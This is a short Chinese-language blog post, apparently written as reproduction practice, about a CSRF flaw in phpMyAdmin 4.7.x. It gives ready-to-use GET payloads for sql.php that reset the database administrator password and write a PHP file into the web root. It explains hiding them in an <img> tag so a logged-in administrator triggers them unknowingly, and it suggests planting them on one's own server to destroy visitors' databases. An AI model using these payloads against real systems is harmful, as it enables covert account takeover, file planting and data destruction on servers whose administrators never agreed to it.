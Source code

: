 ```yaml
---
layout: post
title: phpMyAdmin 4.7.x CSRF
categories: [permeate]
tags: [permeate]
fullview: false
comments: true
---
```


复现学习  
  
场景:管理员登陆phpmyadmin之后，我试验了一下，发现只要是登陆session没有失效应该是都可以的，  

利用，phpmyadmin可以通过get方式操作数据库，此版本存在csrf漏洞，通过构造一个链接(不是傻子基本都发现),所以是藏到一个地方让他自己偷偷的加载。    


### ① ###

修改管理员密码，因为可以通过get方式执行操作，所以构造语句:  



>     http://url/pma/sql.php?db=mysql&table=user&sql_query=SET%20password%20=%20PASSWORD(%27pass%27); 
>     就是把phpmyadmin首页进去的index.php换成sql.php?~~~~~~
>     藏到html里，通过image标签让浏览器自己预先加载就可以达到了偷偷改密码的目的。
>     <img src="payload">  

### ② ###
写马。  

和①原理上是一样的，都是get构造语句，执行不同的语句直接在后边构造就行。  

>     http://url/pma/sql.php?db=mysql&table=user&sql_query=select '<?php phpinfo();?>' into outfile '/var/www/html/test.php';


即使是管理员，有的时候也不一定能写，主要原因是参数
>     secure_file_priv
  

限制了读写操作，这个如果被限制的话没有什么很好的解决办法，因为要改配置文件。
### ③ ###
结合[https://www.cnblogs.com/zaqzzz/p/9355004.html](https://www.cnblogs.com/zaqzzz/p/9355004.html "phpmyadmin漏洞利用general_log和general_log_file拿权限")   

为所欲为，构造语句的时候加上分号就好了。

  


### 总结: ###

感觉这个使用的不会太多，首先这个完整的路径只要在你扫描到phpmyadmin的位置才能利用，还有尴尬的是你怎么知道谁是管理员以及让他打开html。  

不过挂在自己搭建的服务器上，只要他们访问就把数据库破坏这也是个方法。。。